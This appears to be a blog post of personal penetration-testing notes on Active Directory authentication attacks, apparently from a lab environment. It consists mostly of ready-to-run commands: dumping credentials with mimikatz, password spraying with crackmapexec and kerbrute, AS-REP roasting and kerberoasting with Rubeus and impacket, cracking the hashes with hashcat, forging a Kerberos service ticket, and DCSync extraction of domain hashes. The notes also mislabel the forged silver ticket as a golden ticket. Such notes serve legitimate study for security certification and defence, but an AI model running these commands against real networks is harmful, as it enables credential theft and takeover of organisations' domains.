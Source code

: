 ```yaml
---
layout: post
title: Active Directory Auth Attacks
titledate: 09/26/23
tags: ["infosec", "offsec", "AD", "powershell", "mimikatz", "rubeus", "impacket", "hashcat"]
---
```


#### pass cracking

    PS> .\mimikatz.exe

dump user hashes

    mimikatz# sekurlsa::logonpasswords

open another powershell window to create a service ticket

    PS> dir \\web04.corp.com\backup

can show that ticket in mimikatz

    mimikatz# sekurlsa::tickets

view lockout information

    PS> net accounts

slow password spraying attack using LDAP and ADSI

    PS> powershell -ep bypass

we can use a wordlist for passwords

    PS> .\Spray-Passwords.ps1 -Pass password! -Admin

our attack machine also has the tool crackmapexec that we can use to perform a similar sprayin function with an argument continue-on-success that will continue guessing even if accounts are found
    
    $ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success

### crackmapexec output is Pwned if user has admin privs on a machine

another tool is called kerbrute

    PS> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt .\passwords.txt

for these 2 tools we can provide a list of usersnames that we've enumerated for the domain or we can use built in enumeration options in the tools

#### AS-REP roasting

if we have discovered pete's creds we can use GetNPUsers

    $ impacket-GetNPUsers -dc-ip 192.168.1.1  -request -outputfile hashes.asreproast corp.com/jim

this determines another user dave has the option Do not require Kerberos preauth enabled

this means his account is vulnerable to AS-REP roasting

let's determine which mode to use with hashcat

    $ hashcat --help | grep -i "Kerberos"

    $ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

to peform as-rep roasting on widows we use Rubeus

    PS> .\Rubeus.exe asreproast /nowrap

this will give us the as-rep hash of a user

then back on our kali machine 

    $ sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

#### kerberoasting

    PS> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

we need hashcat to crack a TGS-rep hash

    $ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

if we can't run rubeus we can use impacket

    $ sudo impacket-GetUserSPNs -request -dc-ip 192.168.1.1 corp.com/john

#### silver ticket

we need a silver ticket to get access to an HTTP SPN resource

let's see if our user has access to the resource of the HTTP SPN mapped to the iis_service

    PS> iwr -UseDefaultCredentials http://web04

launch PS as admin adn load mimikatz

    mimikatz# privilege::debug

now we can dump the NTLM hash of the user that is mapped to the HTTP SPN , in this case iis_service

    mimikatz# sekurlsa::logonpasswords

this will give us the SID we need

    mimikatz# kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

this will create a golden ticket for the user jeffadmin

we confirm our ticket is created and available

    PS> klist

### NOTE: needs to happen inside the same cmd window/ process

now we can try to verify if we have access to the HTTP SPN like we did before

    PS> (iwr -UseDefaultCredentials http://web04).Content

.Content to get the html content of the page

we've forged a service ticket for a user that gives us access to a web page

#### dcsync 

we canuse mimikatz for this attack

    mimikatz# lsadump::dcsync /user:corp\jim

then crack the pass with hashcat

    $ hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

against the admin

    mimikatz# lsadump::dcsync /user:corp\Administrator

with impacket providing a user with access and the domain controller

    $ impacket-secretsdump -just-dc-user jim corp.com/jeffadmin:"pass123!"@192.168.1.1